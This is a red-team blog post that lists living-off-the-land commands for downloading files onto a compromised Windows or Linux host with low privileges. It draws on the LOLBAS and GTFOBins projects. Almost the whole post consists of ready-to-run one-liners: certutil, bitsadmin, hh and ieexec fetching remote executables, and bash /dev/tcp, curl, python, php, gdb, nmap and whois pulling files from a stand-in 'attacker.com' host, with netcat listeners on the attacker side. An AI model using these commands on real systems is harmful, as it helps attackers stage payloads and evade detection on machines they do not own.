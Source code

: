 Title: Remote File Copy all the things!
Summary: Who has not run in to the issue of wanting to remote copy a file a file during Red-Team activities while having a low privilegde user. In this post i will mention multiple commands that make use of Windows and Linux binaries present on any system and can be used to download files on to a system under low priviledge.
Date: 2018-12-10 22:00
Modified: 2018-12-10 22:01
Category: Red-Team
Tags: Red-Team, MITRE-Attack:T1105, Remote File Copy, Lateral Movement
Slug: Remote_file_copy_all_the_things
Authors: pebkac

# Background
While playing a CTF I had to copy files from one machine to the next. However I was not able to do so with a non standard binary. A few, weeks, months ago, really don't remember. I watched a talk where these 2 projects being presented. These project basicly showed a lot of research being done on system binaries that can be used during Red-Team activities. Ofcourse these can also be added to your forensic artefact list should you be interested in preventing them from being used.
<br> 
<br>
## Windows
- [Lolbas-project](https://lolbas-project.github.io/ "Lolbas-project")

## Linux
- [GTFO-bins](https://gtfobins.github.io/ "GTFO-bins")

<br>
From these websites I found multiple other binaries that could do remote file copy and so much more. I highly recommend looking them up. To make it easier for myself and maybe you? next time we might need them I copied some of command in this post for easy access. (All credits go to the researchers of those 2 great projects)
<br>
<br>

# Windows

###bitsadmin
```batch
bitsadmin /create 1 bitsadmin /addfile 1 <url>/file.ext> <output Folder>\file.ext bitsadmin /RESUME 1 bitsadmin /complete 1
```
###certutil
```batch
certutil.exe -urlcache -split -f <url>/file.ext <outputFile.ext>
```
###Esentutl
```batch
esentutl.exe /y \\<url without www>\<file.ext> /d \\otherwebdavserver\webdav\adrestore.exe /o
```
###Expand
```batch
expand \\webdav\folder\file.bat c:\ADS\file.bat
```
###Extrac32
```batch
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```
###Findstr
```batch
findstr /V /L mip9-2rnuar;gl934gmlkj \\webdavserver\folder\file.exe > c:\ADS\file.exe

```
###Hh
```batch
HH.exe http://some.url/script.ps1
```
###Ieexec
```batch
ieexec.exe http://x.x.x.x:8080/bypass.exe
```
###Makecab
```batch
makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
```
###Replace
```batch
replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
```
<br>
<br>
# Linux
###Bash
```bash
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```
Remote file using a TCP connection. Run nc -l -p 12345 < "file_to_send" on the attacker box 
```bash
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
```
###CPAN
```bash
export URL=http://attacker.com/file_to_get
cpan
! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();
```
###curl
```bash
URL=http://attacker.com/file_to_get
LFILE=file_to_save
curl $URL -o $LFILE
```
###easy_install
```bash
export URL=http://attacker.com/file_to_get
export LFILE=/tmp/file_to_save
TF=$(mktemp -d)
echo "import os;
os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
pip install $TF
```
###GDB
```bash
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
gdb -nx -ex 'python import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])' -ex quit
```

###NMAP
Run nc target.com 12345 < "file_to_send" on the attacker 
```bash
export LPORT=12345
export LFILE=file_to_save
TF=$(mktemp)
echo 'local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);' > $TF
nmap --script=$TF
```
###php
```bash
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
```
###whois
Run nc -l -p 12345 < "file_to_send" on the attacker box<br>
The file has instances of $'\x0d' stripped.
```bash
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
whois -h $RHOST -p $RPORT > "$LFILE"
```
Run base64 "file_to_send" | nc -l -p 12345 on the attacker box
```bash
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
```
###Python
```bash
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
python -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])'
```